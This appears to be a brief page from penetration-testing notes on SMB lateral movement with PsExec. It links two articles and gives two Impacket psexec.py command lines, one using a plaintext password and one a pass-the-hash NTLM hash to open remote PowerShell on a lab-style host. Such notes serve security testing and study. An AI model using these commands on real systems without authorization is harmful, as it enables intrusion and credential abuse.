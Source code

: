 ```yaml
---
description: Server Message Block
---
```


# SMB




## PsExec

* [https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec](https://web.archive.org/web/20220517171437/https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec)
* [https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm](https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm)



### psexec.py

```
$ psexec.py snovvcrash:'Passw0rd!'@192.168.11.1
$ rlwrap -cAr psexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 megacorp.local/snovvcrash@192.168.11.1 powershell
```
